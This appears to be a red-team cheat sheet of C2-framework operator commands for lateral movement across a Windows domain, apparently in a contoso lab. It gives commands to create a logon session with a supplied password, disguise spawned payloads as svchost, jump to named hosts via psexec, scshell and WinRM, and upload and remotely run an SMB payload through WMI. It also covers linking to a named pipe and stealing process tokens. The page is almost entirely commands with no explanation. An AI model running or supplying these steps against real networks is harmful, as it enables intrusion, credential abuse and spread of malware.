 
Create logon session as local Admin
```powershell
make_token CONTOSO\rsteel Passw0rd!
```

Change the `spawnto` for the service payload
```powershell
ak-settings spawnto_x86 C:\Windows\SysWOW64\svchost.exe
ak-settings spawnto_x64 C:\Windows\System32\svchost.exe
```

Jump via psexec64
```powershell
jump scshell64 DUB-WEB-1 smb

jump psexec64 DUB-WKSTN-2 smb

jump winrm64 DUB-WEB-1 smb

jump scshell64 dub-sql-1.dublin.contoso.com smb

jump psexec64 enc-fs-1.contoso.enclave smb
```

---

Manual (rpcss ticket required)
```powershell
cd \\enc-jmp-1.contoso.enclave\ADMIN$

upload C:\Payloads\smb_x64.exe

remote-exec wmi enc-jmp-1.contoso.enclave C:\Windows\smb_x64.exe
```


```powershell
link smb enc-jmp-1.contoso.enclave W32TIME_ALT-1337
```

```powershell
token-store steal 3184
token-store use 0 
```